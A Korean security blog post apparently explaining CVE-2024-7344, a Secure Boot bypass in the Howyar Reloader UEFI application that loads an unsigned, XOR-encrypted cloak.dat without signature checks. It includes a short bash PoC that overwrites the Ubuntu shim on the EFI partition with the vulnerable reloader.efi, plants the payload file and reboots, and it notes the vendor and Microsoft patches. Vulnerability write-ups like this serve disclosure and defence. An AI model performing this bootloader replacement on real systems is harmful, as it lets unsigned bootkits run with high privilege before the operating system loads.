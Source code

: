 ```yaml
---
title: "[하루한줄] CVE-2024-7344 : Howyar Reloader UEFI 애플리케이션의 서명 검증 없는 임의 코드 실행으로 인한 Secure Boot bypass"
author: newp1ayer48
tags: [Howyar, UEFI Reloader, ACE, newp1ayer48]
categories: [1day1line]
date: 2025-05-21 13:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://www.bleepingcomputer.com/news/security/new-uefi-secure-boot-flaw-exposes-systems-to-bootkits-patch-now/

## Target

- SysReturn 10.2.02320240919 이하 버전 등

## Explain

Howyar Reloader UEFI 애플리케이션은 하드 코딩된 경로에서 임의 코드 및 소프트웨어를 실행할 수 있는 취약점이 발생했습니다.

UEFI 애플리케이션은 OS 부팅 전에 실행되는 Bootloader의 유형으로 BIOS의 발전된 형태입니다.

UEFI 애플리케이션은 일반적으로 Microsoft UEFI 인증 기관(CA)에서 디지털 서명을 받아 UEFI 보안 부팅 추가 소프트웨어를 실행하고 드라이버를 로드하는 형태로 동작합니다. UEFI 부트로더는 초기 부팅 관리를 제공하여 OS 파일을 보호된 메모리 영역에 로드하여 실행합니다.

ESET 연구원들은 이 애플리케이션이 서명 검증 없이 하드 코딩된 경로에서 UEFI 소프트웨어를 실행할 수 있다는 사실을 발견했습니다. 서명되지 않은 모든 타사 소프트웨어가 UEFI 컨텍스트에서 높은 권한으로 초기 부팅 단계에서 실행될 수 있습니다.

이 문제는 애플리케이션이 사용자 지정 PE loader를 사용하는 것에서 비롯되는데, 이 때문에 서명되지 않은 모든 UEFI 바이너리를 로드할 수 있습니다. 

또한, `reloader.efi`가 안전한 애플리케이션 실행을 위해 DB를 통한 바이너리를 검증하는 UEFI의 표준 BootServices `LoadImage()`, `StartImage()` API를 사용하지 않기 때문이라고 합니다.
![](CVE-2024-7344/image1.png)


PoC는 아래와 같습니다.

`reloader.efi`는 기본적인 암호화된 XOR PE 이미지를 포함하는 `cloak.dat`에서 수동으로 암호를 해독하고 메모리 바이너리를 로드합니다. 

공격자는 이러한 안전하지 않은 프로세스를 악용하여 EFI 파티션의 앱 기본 OS Boot loader를 취약한 `reloader.efi`로 바꾸고 명목 경로에 악성 `cloak.dat` 파일을 심어 놓을 수 있습니다. 시스템 부팅 시, 사용자 정의 로더는 보안 부팅 검증 없이 악성 바이너리를 해독하고 실행합니다.
```bash
##############################
# check UEFI Secure Boot status
# mokutil --sb-state

# check installed UEFI db certificates
# mokutil --db | grep "Subject:" | sed -E 's/.*CN=//'

# check dbx version
# sudo fwupdmgr get-devices 2> /dev/null | grep -A 6 "UEFI dbx" | head -n 6

## Deploy files to exploit CVE-2024-7344 ####
##############################

ESP="/boot/efi/EFI"
VULN_APP="$HOME/poc/reloader.efi"
PAYLOAD="$HOME/poc/cloak.dat"

# backup shim
sudo cp "$ESP/ubuntu/shimx64.efi" "$ESP/ubuntu/shimx64-orig.efi"

#deploy vulnerable UEFI App and payload file
sudo cp "$VULN_APP" "$ESP/ubuntu/shimx64.efi"
sudo cp "$PAYLOAD" "$ESP/boot/cloak.dat"

sleep 3

sudo reboot
```

재부팅이 되면 익스플로잇이 되는 것을 확인할 수 있습니다.
![](CVE-2024-7344/image2.png)

CVE-2024-7344 취약점은 공격자가 대상 컴퓨터에 위 애플리케이션이 없더라도, 취약한 `reloader.efi` 바이너리만 배포하여 공격을 수행할 수 있습니다.

해당 취약점은 UEFI Revocation List File 패치를 통해 차단되었습니다.

또한, Microsoft 측에서는 2025년 1월 14일에 취약한 UEFI 애플리케이션의 인증서를 폐지하여 차단되었습니다. 이 패치는 Windows 업데이트를 설치한 사용자에게 자동으로 적용됩니다.

## Reference

- https://nvd.nist.gov/vuln/detail/cve-2024-7344
- https://www.eset.com/blog/en/preparing-for-uefi-bootkits-eset-discovery-shows-the-importance-of-cyber-intelligence/
- https://x.com/pascal_gujer/status/1880025194254995636
- https://www.kb.cert.org/vuls/id/529659
